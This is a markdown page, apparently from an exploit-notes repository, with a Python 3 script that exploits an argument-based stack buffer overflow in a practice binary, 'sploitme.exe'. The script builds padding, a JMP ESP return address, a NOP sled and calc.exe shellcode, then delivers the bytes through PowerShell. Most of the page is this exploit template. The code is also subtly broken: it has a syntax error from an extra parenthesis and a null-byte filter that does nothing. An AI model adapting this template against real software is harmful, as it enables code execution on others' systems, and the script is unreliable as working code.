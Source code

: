 # Python 3 Argument based buffer overflow solution

## [⬅ Back to Index](../README.md)

The problem with Python3 is that all shell interaction (e.g. using subprocess or OS) will attempt implicit decode of bytes to latin or utf8.

This breaks our shellcode that relies on being specific bytes.

The solution I've settled on is supported from windows 7 and above and uses a hacky powershell workaround to send raw un-encoded bytes to the argument of a program.
It does this by writing a binary file and using powershell to cat this out to the argument of the program.

I know, I know, terrible.

---

## Code

```python3
import os
import sys
from struct import pack
import subprocess
# Usage:
#
# >>> Findjmp ntdll.dll esp
# Scanning ntdll.dll for code useable with the esp register
# 0x776D57CE      call esp
# 0x77711C43
# [.....]
# Finished Scanning ntdll.dll for code useable with the esp register
# Found 8 usable addresses...
#
# Put one of them into "function_location"
#
# >>> py -3 py3-terrible.py
# Sends this to program argument 1 as an example (calc.exe shellcode)
# 000000  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
# 000010  41 41 41 41 41 41 3b 7d 26 90 90 90 90 90 90 90
# 000020  90 31 db 64 8b 7b 30 8b 7f 0c 8b 7f 1c 8b 47 08
# 000030  8b 77 20 8b 3f 80 7e 0c 33 75 f2 89 c7 03 78 3c
# 000040  8b 57 78 01 c2 8b 7a 20 01 c7 89 dd 8b 34 af 01
# 000050  c6 45 81 3e 43 72 65 61 75 f2 81 7e 08 6f 63 65
# 000060  73 75 e9 8b 7a 24 01 c7 66 8b 2c 6f 8b 7a 1c 01
# 000070  c7 8b 7c af fc 01 c7 89 d9 b1 ff 53 e2 fd 68 63
# 000080  61 6c 63 89 e2 52 52 53 53 53 53 53 53 52 53 ff
# 000090  d7


# ------- OPTIONS --------
binary_name = b"sploitme.exe"
padding_to_BOF = 22 # Junk -> EBP Overwritten
# Enter the memory location you want to exec
function_location = 0x773407A8 # use a kernel32 JMP ESP when using shellcode
no_null_bytes = False # C library functions such as strcpy 
                     # will stop on \x00 and kill the exploit, 
                     # toggle to avoid this!
nop_count = 0
shellcode = b"\x31\xdb\x64\x8b\x7b\x30\x8b\x7f\x0c\x8b\x7f\x1c\x8b\x47\x08\x8b\x77\x20\x8b\x3f\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x89\xdd\x8b\x34\xaf\x01\xc6\x45\x81\x3e\x43\x72\x65\x61\x75\xf2\x81\x7e\x08\x6f\x63\x65\x73\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x89\xd9\xb1\xff\x53\xe2\xfd\x68\x63\x61\x6c\x63\x89\xe2\x52\x52\x53\x53\x53\x53\x53\x53\x52\x53\xff\xd7"

# Open calc.exe generic all-win32: "\x31\xdb\x64\x8b\x7b\x30\x8b\x7f\x0c\x8b\x7f\x1c\x8b\x47\x08\x8b\x77\x20\x8b\x3f\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x89\xdd\x8b\x34\xaf\x01\xc6\x45\x81\x3e\x43\x72\x65\x61\x75\xf2\x81\x7e\x08\x6f\x63\x65\x73\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x89\xd9\xb1\xff\x53\xe2\xfd\x68\x63\x61\x6c\x63\x89\xe2\x52\x52\x53\x53\x53\x53\x53\x53\x52\x53\xff\xd7"
# -----------------------

def fast_byte_build(byte_to_use,count):
    ret = bytearray()
    for i in range(count):
        ret += byte_to_use
        i+=i
    return bytes(ret)

payload = fast_byte_build(b'\x41',padding_to_BOF)
payload += pack("<I", function_location)
if no_null_bytes:
    clean_payload = b""
    for x in list(payload):
        if x != b'\x00':
            clean_payload+=x
    payload = clean_payload
if nop_count>0:
    nop_sled = fast_byte_build(b'\x90',nop_count)
    payload += nop_sled
payload += shellcode
# Python3 remedy for its implicit decoding of byte sequences in a shell
f=open("buffersploit.txt","wb+")
f.write(payload)
f.close()

# Fire the hack... literally and figuratively
print("Executing: " + binary_name.decode('utf8')))
print("Payload" + str(payload))

command = [
	"powershell.exe",
	"-c",
	"./" + binary_name.decode('utf8'),
	"$(cat buffersploit.txt)"
]
subprocess.call(command, shell=True)
```
